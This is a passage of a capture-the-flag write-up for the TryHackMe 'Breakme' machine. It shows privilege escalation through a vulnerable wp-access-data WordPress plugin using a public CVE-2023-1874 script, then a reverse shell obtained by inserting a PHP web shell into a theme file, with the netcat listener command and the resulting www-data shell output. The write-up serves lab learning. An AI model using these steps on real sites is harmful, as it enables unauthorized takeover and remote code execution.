 ![image 8](https://github.com/user-attachments/assets/755f4db1-9e4f-4e93-861e-25106c6da22e)

Coming back to our initial findings, we noted that this application has wp-access-data’s version v5.3.5(vulnerable) plugin installed, let’s search that on google, and will try to privesc to admin.

I found a [github article](https://github.com/thomas-osgood/cve-2023-1874/blob/main/README.md) there, which is basically a python script , which will exploit target with wp-access-data v5.3.7 and earlier plugins.

![image 9](https://github.com/user-attachments/assets/7a64aa13-cb30-4fcf-851d-13ba0e6611c2)

I downloaded it in my kali machine , run that script and boom ! User bob gets admin level privileges on that application.

![image 10](https://github.com/user-attachments/assets/afd6bdbd-1e7c-4cd8-a241-6ecf9b326371)

As we can see, we gained admin level privileges to wordpress.

![image 11](https://github.com/user-attachments/assets/01764b54-fb24-4988-b14b-b846a91de670)

---

### Remote Code Execution From Wordpress

Now, to gain RCE, we can simply edit one of the `PHP` files in the theme to include a simple web shell.

![image 12](https://github.com/user-attachments/assets/c9d5a9ed-e235-4908-aab9-86612b0e364b)

![image 13](https://github.com/user-attachments/assets/01973db0-326c-4686-8723-8d823e0f8a50)

Note: I used php-reverse-shell.php from pentest monkey.

Now, we can start a listner on our kali machine and use that webshell to gain reverse shell on our machine.

```bash
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.183.236] 53310
Linux Breakme 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64 GNU/Linux
 10:09:00 up 44 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

If we go to /home directory, we can see there were 2 users in this machine: 1. john 2. youcef.

First flag is in the john’s home directory, but we can’t access it now, we have to user john for that.
